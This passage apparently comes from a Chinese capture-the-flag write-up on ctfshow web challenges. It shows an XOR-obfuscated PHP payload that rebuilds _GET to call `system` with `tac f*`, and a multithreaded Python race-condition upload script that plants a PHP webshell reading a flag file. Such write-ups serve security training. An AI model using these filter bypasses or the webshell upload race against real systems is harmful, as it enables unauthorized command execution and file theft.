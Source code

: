     code=$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
    其中，"`{{{"^"?<>/"; 异或出来的结果是 _GET

原理其实类似，是异或出来了一个get方法使用。

## web149

考点：竞争上传
用burp半天写不好，后来写脚本一下爆出来了

    import requests
    import threading
    import io

    url = "http://0fad4f91-e056-4df2-8433-ab03c1675b47.chall.ctf.show:8080/"

    def write():
        while event.isSet():
            data = {
                'show' : '<?php system("cat /ctfshow_fl0g_here.txt");?>'
            }
            requests.post(url+'?ctf=1.php',data=data)

    def read():
        while event.isSet():
            response = requests.get(url+'1.php')
            if response.status_code !=404:
                print(response.text)
                event.clear()

    if __name__=='__main__':
        event = threading.Event()
        event.set()
        for i in range(0,100):
            threading.Thread(target=write).start()

        for i in range(0,100):
            threading.Thread(target=read).start()

## web150